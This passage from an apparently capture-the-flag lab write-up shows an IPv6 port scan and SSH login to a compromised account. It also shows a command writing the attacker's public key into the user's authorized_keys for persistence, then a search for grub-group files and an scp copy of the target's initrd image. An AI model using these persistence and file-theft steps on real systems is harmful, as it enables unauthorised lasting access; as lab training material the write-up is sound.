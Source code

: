 As expected, I find SSH listening:

```
# nmap -6 -p- dead:beef::250:56ff:feb2:7bc2
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-15 02:34 EDT
Nmap scan report for dead:beef::250:56ff:feb2:7bc2
Host is up (0.0081s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 11.48 seconds
```

I'll add my SSH public keys to guly's SSH directory so I can log back in later:

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+SZ75RsfVTQxRRbezIJn+bQgNifXvjMWfhT1hJzl/GbTbykFtGPTwuiA5NAcPKPG25jkQln3J8Id2ngapRuW8i8OvM+QBuihsM9wLxu+my0JhS/aNHTvzJF0uN1XkvZj/BkbjUpsF9k6aMDaFoaxaKBa7ST2ZFpxlbu2ndmoB+HuvmeTaCmoY/PsxgDBWwd3GiRNts2HOiu74DEVt0hHbJ7kwhkR+l0+6VS74s+7SjP+N1q+oih83bjwM8ph+9odqAbh6TGDTbPX2I+3lTzCUeGS9goKZe05h/YtB2U2VbH1pxJZ1rfR1Sp+SBS+zblO9MUxvbzQoJTHpH2jeDg89 root@ragingunicorn" > .ssh/authorized_keys
```

From here I will use the SSH shell instead so I have a TTY:

```
root@ragingunicorn:~# ssh guly@dead:beef::250:56ff:feb2:7bc2
guly@unattended:~$ id
uid=1000(guly) gid=1000(guly) groups=1000(guly),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),47(grub),108(netdev)
```

### Priv esc

I check the groups that `guly` is a member of and the `grub` group seems suspicious to me. According to [https://wiki.debian.org/SystemGroups](https://wiki.debian.org/SystemGroups) this isn't a standard group.

I'll do a search for files owned by the `grub` group and find a single file: `/boot/initrd.img-4.9.0-8-amd64`

```
guly@unattended:~$ find / -group grub 2>/dev/null
/boot/initrd.img-4.9.0-8-amd64
```

I download the file to my Kali VM:

```
# scp -6 guly@\[dead:beef::250:56ff:feb2:7bc2\]:/boot/initrd.img-4.9.0-8-amd64 .
initrd.img-4.9.0-8-amd64

# file initrd.img-4.9.0-8-amd64
initrd.img-4.9.0-8-amd64: gzip compressed data, last modified: Thu Dec 20 22:50:39 2018, from Unix, original size 62110208
```
